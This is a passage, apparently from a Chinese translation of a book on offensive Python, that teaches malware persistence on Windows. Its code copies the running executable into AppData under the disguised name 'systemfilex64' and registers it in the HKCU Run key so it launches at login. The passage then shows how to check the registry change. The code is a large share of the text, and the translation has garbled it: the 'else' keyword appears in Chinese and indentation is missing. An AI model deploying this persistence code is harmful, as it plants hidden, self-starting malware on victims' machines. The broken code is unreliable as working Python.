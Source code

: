 key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

这段代码简单地将**to_save_file**字符串添加到启动注册表中，该字符串包含可执行文件的名称。

要对程序进行修改，你需要以管理员模式运行此可执行文件，因此你可以将前一节中的代码复制并将其添加到此脚本的开头。完整的代码链接如下：

if not os.path.exists(to_save_file):

print("正在变得持久化")

shutil.copyfile(curr_executable, to_save_file)

key = winreg.HKEY_CURRENT_USER

# "Software\Microsoft\Windows\CurrentVersion\Run"

key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

否则：

print("路径不存在")

运行代码后，如果你进入**appdata**文件夹，你将看到以下可执行文件：

![图 9.8 – 当前可执行文件已复制到 appdata 文件夹](img/B14788_09_08.jpg)

图 9.8 – 当前可执行文件已复制到 appdata 文件夹

同样，为了验证 Windows 注册表是否已被修改，可以通过在 Windows 搜索中搜索**regedit**打开注册表编辑器。打开后，前往以下路径：

**"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"**：

![图 9.9 – 编辑后的注册表](img/B14788_09_09.jpg)
